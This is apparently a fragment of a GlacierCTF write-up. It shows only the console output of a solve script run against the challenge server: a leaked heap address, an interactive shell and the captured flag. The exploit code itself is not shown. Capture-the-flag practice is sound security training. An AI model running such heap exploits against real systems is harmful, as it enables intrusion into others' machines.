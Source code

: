 
```console
➜ ./solve.py REMOTE
[+] Opening connection to chall.glacierctf.com on port 13373: Done
[*] heap_leak=0x557c4b598
[*] heap=0x557c4b598000
[*] Switching to interactive mode
Verified permissions
Here is your flag: gctf{I_th0ght_1_c0uld_n0t_m3ss_4nyth1ng_up}
[*] Got EOF while reading in interactive
$
[*] Interrupted
[*] Closed connection to chall.glacierctf.com port 13373
```
